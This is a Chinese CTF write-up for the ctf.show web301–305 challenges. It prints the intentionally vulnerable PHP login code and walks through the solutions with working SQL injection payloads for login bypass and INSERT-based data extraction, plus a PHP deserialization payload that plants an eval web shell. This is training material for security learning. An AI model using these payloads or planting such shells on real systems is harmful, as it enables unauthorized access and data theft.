

web301-310
web301
<?php
error_reporting(0);
session_start();
require 'conn.php';
$_POST['userid']=!empty($_POST['userid'])?$_POST['userid']:"";
$_POST['userpwd']=!empty($_POST['userpwd'])?$_POST['userpwd']:"";
$username=$_POST['userid'];
$userpwd=$_POST['userpwd'];
$sql="select sds_password from sds_user where sds_username='".$username."' order by id limit 1;";
$result=$mysqli->query($sql);
$row=$result->fetch_array(MYSQLI_BOTH);
if($result->num_rows<1){
$_SESSION['error']="1";
header("location:login.php");
return;
}
if(!strcasecmp($userpwd,$row['sds_password'])){
$_SESSION['login']=1;
$result->free();
$mysqli->close();
header("location:index.php");
return;
}
$_SESSION['error']="1";
header("location:login.php");
?>没有任何过滤
Payload:
POST: /checklogin.php
userid=1' union select 1%23&userpwd=1web302
Hint:
修改的地方：
if(!strcasecmp(sds_decode($userpwd),$row['sds_password'])){if(!strcasecmp(sds_decode($userpwd),$row['sds_password'])){
$_SESSION['login']=1;
$result->free();
$mysqli->close();
header("location:index.php");
return;
}# fun.php
<?php
function sds_decode($str){
return md5(md5($str.md5(base64_encode("sds")))."sds");
}
?>按照同样逻辑构造即可
var_dump(md5(md5("1".md5(base64_encode("sds")))."sds"));
// string(32) "d9c77c4e454869d5d8da3b4be79694d3"Payload:
POST: /checklogin.php
userid=1' union select 'd9c77c4e454869d5d8da3b4be79694d3' %23&userpwd=1web303
checklogin.php限制了userid的长度
if(strlen($username)>6){
die();
}fun.php和sds_user.sql给了弱密码提示 admin/admin
# fun.php
<?php
function sds_decode($str){
return md5(md5($str.md5(base64_encode("sds")))."sds");
}
echo sds_decode("admin"); // 27151b7b1ad51a38ea66b1529cde5ee4
?>
# sds_user.sql
-- ----------------------------
-- Records of sds_user
-- ----------------------------
INSERT INTO `sds_user` VALUES ('1', 'admin', '27151b7b1ad51a38ea66b1529cde5ee4');# dptadd.php
<?php
session_start();
require 'conn.php';
if(!isset($_SESSION['login'])){
header("location:login.php");
return;
}else{
//注入点
$_POST['dpt_name']=!empty($_POST['dpt_name'])?$_POST['dpt_name']:NULL;
$_POST['dpt_address']=!empty($_POST['dpt_address'])?$_POST['dpt_address']:NULL;
$_POST['dpt_build_year']=!empty($_POST['dpt_build_year'])?$_POST['dpt_build_year']:NULL;
$_POST['dpt_has_cert']=!empty($_POST['dpt_has_cert'])?$_POST['dpt_has_cert']:NULL;
$_POST['dpt_cert_number']=!empty($_POST['dpt_cert_number'])?$_POST['dpt_cert_number']:NULL;
$_POST['dpt_telephone_number']=!empty($_POST['dpt_telephone_number'])?$_POST['dpt_telephone_number']:NULL;
$dpt_name=$_POST['dpt_name'];
$dpt_address=$_POST['dpt_address'];
$dpt_build_year=$_POST['dpt_build_year'];
$dpt_has_cert=$_POST['dpt_has_cert']=="on"?"1":"0";
$dpt_cert_number=$_POST['dpt_cert_number'];
$dpt_telephone_number=$_POST['dpt_telephone_number'];
$mysqli->query("set names utf-8");
$sql="insert into sds_dpt set sds_name='".$dpt_name."',sds_address ='".$dpt_address."',sds_build_date='".$dpt_build_year."',sds_have_safe_card='".$dpt_has_cert."',sds_safe_card_num='".$dpt_cert_number."',sds_telephone='".$dpt_telephone_number."';";
$result=$mysqli->query($sql);
echo $sql;
if($result===true){
$mysqli->close();
header("location:dpt.php");
}else{
die(mysqli_error($mysqli));
}
}
?>首先访问apt.php可以新增表单，新增后抓包进行sql注入
POST /dptadd.php HTTP/1.1
Host: 48838e12-353f-4ed4-884e-5480a8bb5207.challenge.ctf.show
Cookie: PHPSESSID=gd7ltvs2a269115fvk9s234121
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Dnt: 1
Referer: https://48838e12-353f-4ed4-884e-5480a8bb5207.challenge.ctf.show/dpt.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 204
Connection: close
dpt_name=1&dpt_address=1&dpt_build_year=2024-08-01&dpt_has_cert=on&dpt_cert_number=a',sds_telephone=(Payload);%23&dpt_telephone_number=aPayload:
# 查表名 sds_dpt,sds_fl9g,sds_user
select group_concat(table_name) from information_schema.tables where table_schema=database()
# 查列名 flag
select group_concat(column_name) from information_schema.columns where table_name='sds_fl9g'
# getFlag
select group_concat(flag) from 'sds_fl9g'
web304
Hint:
增加了全局waf
function sds_waf($str){
return preg_match('/[0-9]|[a-z]|-/i', $str);
}但是其实没有上waf。只是换了个表名，把sds_fl9g换成了sds_flaag而已。其他都同上题。
payload：
select flag from sds_flaagweb305
function sds_waf($str){
if(preg_match('/\~|\`|\!|\@|\#|\$|\%|\^|\&|\*|\(|\)|\_|\+|\=|\{|\}|\[|\]|\;|\:|\'|\"|\,|\.|\?|\/|\\\|\<|\>/', $str)){
return false;
}else{
return true;
}
}虽然过滤很狠，但是多了个class.php文件
<?php
class user{
public $username;
public $password;
public function __construct($u,$p){
$this->username=$u;
$this->password=$p;
}
public function __destruct(){
file_put_contents($this->username, $this->password);
}
}
然后在checklogin.php文件中发现了反序列化操作
<?php
error_reporting(0);
session_start();
require 'conn.php';
require 'fun.php';
require 'class.php';
$user_cookie = $_COOKIE['user'];
if(isset($user_cookie)){
$user = unserialize($user_cookie);
}
$_POST['userid']=!empty($_POST['userid'])?$_POST['userid']:"";
$_POST['userpwd']=!empty($_POST['userpwd'])?$_POST['userpwd']:"";
$username=$_POST['userid'];
if(strlen($username)>6){
die();
}
$userpwd=$_POST['userpwd'];
$sql="select sds_password from sds_user where sds_username='".$username."' order by id limit 1;";
$result=$mysqli->query($sql);
$row=$result->fetch_array(MYSQLI_BOTH);
if($result->num_rows<1){
$_SESSION['error']="1";
header("location:login.php");
return;
}
if(!strcasecmp(sds_decode($userpwd),$row['sds_password'])){
$_SESSION['login']=1;
$result->free();
$mysqli->close();
header("location:index.php");
return;
}
$_SESSION['error']="1";
header("location:login.php");
?>直接构造反序列化字符
<?php
class user{
public $username;
public $password;
public function __construct($u,$p){
$this->username=$u;
$this->password=$p;
}
}
$a = new user("a.php","<?php eval(\$_POST['attack']);?>");
echo urlencode(serialize($a));因为cookie中将”作为截断符号，所需要编码绕过，这里采用url编码
O%3A4%3A%22user%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A5%3A%22a.php%22%3Bs%3A8%3A%22password%22%3Bs%3A31%3A%22%3C%3Fphp+eval%28%24_POST%5B%27attack%27%5D%29%3B%3F%3E%22%3B%7D然后用蚁剑连接，因为账号密码已经给了，所以直接连接数据库就行(注意本地下载的sql密码和真正的不一样)